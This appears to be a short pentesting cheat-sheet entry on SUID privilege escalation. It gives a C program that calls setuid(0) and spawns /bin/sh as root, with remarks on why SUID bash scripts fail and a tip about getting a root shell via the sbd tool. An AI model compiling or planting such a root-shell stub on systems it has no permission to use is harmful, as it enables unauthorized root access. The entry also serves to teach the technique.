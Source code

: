 # SUID

If we can suid an executable, we can use the following code to execute a command as root.

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setuid( 0 );
   system( "/bin/sh" );

   return 0;
}
```

* suid on bash script don't work. https://stackoverflow.com/questions/18698976/suid-not-working-with-shell-script
* suid on /bin/sh will don"t work as long as setuid is not invoked
* trick : sbd (see kali tools), can invoke a shell on root if setuid (-s option)

http://www.faqs.org/faqs/unix-faq/faq/part4/section-7.html <== very interesting
https://stackoverflow.com/questions/18698976/suid-not-working-with-shell-script

security risk in suid bash scripts : http://www.faqs.org/faqs/unix-faq/faq/part4/section-7.html



